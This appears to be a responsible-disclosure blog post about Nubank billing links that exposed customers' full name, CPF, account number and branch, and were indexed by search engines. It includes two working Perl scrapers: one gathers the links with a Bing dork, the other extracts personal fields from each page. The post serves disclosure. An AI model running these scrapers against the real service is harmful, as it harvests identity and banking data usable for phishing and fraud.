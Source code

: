 ```yaml
---
layout: content
title: 'A little case about scraping personal data exposure in the web'
description: 'Between the use and some tests that I always end up running on the applications I have installed on my Smartphone, I ended up bumping into a very interesting feature of Nubank, which allows the user to create a "billing link" and send that link to one or more people to charge. I found the functionality very useful, but when I saw up close how it worked, I was a little uncomfortable in view of the number of scenarios that that implementation could be exposed... With this intrinsic dissatisfaction, I decided to generate some proof of concepts and share them with the company so that they could re-evaluate the design of the functionality and it turned out that in this quick and simple demonstration I was able to map some personal data (CPF, Full Name, Account Number and Agency) of more than 100 customers.'
og_image: https://heitorgouvea.me/images/publications/nubank-scraping/google-dorks.png
---
```


### Summary

Between the use and some tests that I always end up running on the applications I have installed on my Smartphone, I ended up bumping into a very interesting feature of Nubank, which allows the user to create a "billing link" and send that link to one or more people to charge. I found the functionality very useful, but when I saw up close how it worked, I was a little uncomfortable in view of the number of scenarios that that implementation could be exposed... With this intrinsic dissatisfaction, I decided to generate some proof of concepts and share them with the company so that they could re-evaluate the design of the functionality and it turned out that in this quick and simple demonstration I was able to map some personal data (CPF, Full Name, Account Number and Agency) of more than 100 customers.

*Disclaimer: The responsible company was informed about all details contained in this publication in the shortest possible time and it positioned itself in an ethical and transparent manner, demonstrating due attention and commitment. During all tests, no system was invaded or breached, in addition, the company performed some of the necessary actions/modifications to minimize any undue action that explores the context covered in this publication. Other recommendations to mitigate the vulnerabilities were made by me, however the company did not think it necessary to apply them.*

---

### Description

Within the Nubank mobile application, there is a feature called "Charge", this feature comes down to you filling in a value of your desire (if you want) and clicking confirm:

![](/images/publications/nubank-scraping/creating-a-link.png)

After that, a QR Code is generated and you have the option to share it or send the bill through another application, such as WhatsApp:

![](/images/publications/nubank-scraping/whatsapp-shared-link.png)

When I came across this link (the content of the QR Code is also the link), I decided to open it in the browser to take a look and this was the result:

![](/images/publications/nubank-scraping/personal-infos.png)

I came across my full name, CPF, my bank account number and branch exposed without any kind of control, the only requirement to get my information through Nubank was to have such a URL.

Such URL is generated exclusively by the client in your application and it is also up to the client to define how and with whom to share each generated URL.

Convinced to analyse whether this was really possible, I decided to create a *dork* to try to find more of these URLs, this time exposed on the Internet and this was the result:

![](/images/publications/nubank-scraping/google-dorks.png)

Surprised by the fact that Nubank allowed Google and other search engines to index these pages, I decided to validate that such URLs were being published on other channels, and the first channel I decided to validate was Twitter:

![](/images/publications/nubank-scraping/twitter-links.png)

And these are just some of the results, on Twitter you could see that some people use this functionality to receive donations and others use it in very general ways...

---

### Proof of Concept

Convinced to demonstrate an impact of the abuse of this functionality, I decided to create a proof of concept. The first part of this PoC boiled down to building code that would be able to use a search engine to collect as many URLs as possible, so I did a simple *scraper* for Bing:

```perl
#!/usr/bin/env perl

use 5.018;
use strict;
use warnings;
use WWW::Mechanize;
use Mojo::Util qw( url_escape);

sub main {
    my $dork = $ARGV[0];

    if ($dork) {
        my $mech = WWW::Mechanize -> new();
        my %seen = ();

        $dork = url_escape($dork);

        for my $page (0 .. 10) {
            my $url = "http://www.bing.com/search?q=${dork}&first=${page}0";
            $mech -> get($url);
            my @links = $mech -> links();
                        
            foreach my $link (@links) {
                $url = $link -> url();
                next if $seen{$url}++;

                if ($url =~ m/^https?/ && $url !~ m/bing|live|microsoft|msn/) {
                    print $url, "\n";
                }
            }
        }
    }
}

main();
exit;
```

From that code, I was able to collect 100 valid URLs:

![](/images/publications/nubank-scraping/file-with-the-urls.png)

After having all these URLs in a .txt, I had to build another *scraper* that scraped data on the Nubank page:

```perl
#!/usr/bin/env perl

use 5.018;
use strict;
use warnings;
use Mojo::DOM;
use Mojo::UserAgent;

sub main {
    my $urls_file = $ARGV[0];

    if ($urls_file) {
        open my $urls_filehandle, "<", $urls_file or die $!;

        while (<$urls_filehandle>) {
            chomp($_);

            my $userAgent = Mojo::UserAgent -> new();
            my $response  = $userAgent -> get($_) -> result();

            if ($response -> is_success()) {
                my $account = $response -> dom -> find("tr td") -> map("text") -> join(",");

                $account =~ s/Nome,//
                && $account =~ s/CPF,//
                && $account =~ s/Banco,//
                && $account =~ s/Tipo da conta,//
                && $account =~ s/Agência,//
                && $account =~ s/Conta,//
                && $account =~ s/Agência Métodos,//;

                say $account;
            }
        }

        close($urls_filehandle);
    }
}

main();
exit;
```

And this was the result:

![](/images/publications/nubank-scraping/collect-with-names-cpfs.png)

CPF, Full name, account number and branch of more than 100 people, in just a few minutes and a few lines of code.

---

### Impact

The possibility of an attacker abusing this functionality available within Nubank systems is relatively high, as it can expose a huge amount of users, leaking some sensitive information as illustrated above, in addition an attacker who has such information at hand, can use it to strengthen/create a social engineering approach.

---

### Conclusion

Through this analysis it is possible to affirm that a convinced person could implement several *scrapers* in order to map Nubank billing URLs and later collect personal information present in them. This article had PoC as one of those implementations, using a search engine, but there is still room for other channels, such as social networks (Twitter, Facebook and others). What could be used to take these people to exposure or risk scenarios, such as being victims of *spear phishing*/social engineering.

---

### References

- [https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)

- [https://en.wikipedia.org/wiki/Google_hacking](https://en.wikipedia.org/wiki/Google_hacking)

- [https://en.wikipedia.org/wiki/Web_scraping](https://en.wikipedia.org/wiki/Web_scraping)
